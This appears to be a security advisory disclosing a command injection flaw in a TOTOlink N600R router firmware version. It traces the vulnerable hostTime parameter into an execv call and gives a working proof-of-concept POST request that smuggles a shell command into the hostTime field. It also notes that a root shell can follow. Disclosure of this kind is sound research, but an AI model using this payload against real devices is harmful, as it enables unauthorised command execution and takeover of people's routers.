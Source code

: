 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406183146441](img/image-20220406183146441.png)

The content obtained by the program through the hosttime function is passed to V5, and then V5 passes the matched content to V10 through the sprintf function, and then brings V10 into the cstesystem function

![image-20220406182546918](img/image-20220406182546918.png)

At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 79
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/adm/status.asp?timestamp=1647872753309
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647872744:2
Connection: close

{"topicurl":"setting/NTPSyncWithHost",
"hostTime":"test.com$(ls>/tmp/6.txt;)"}
```

The reproduction results are as follows:

![image-20220406183233378](img/image-20220406183233378.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

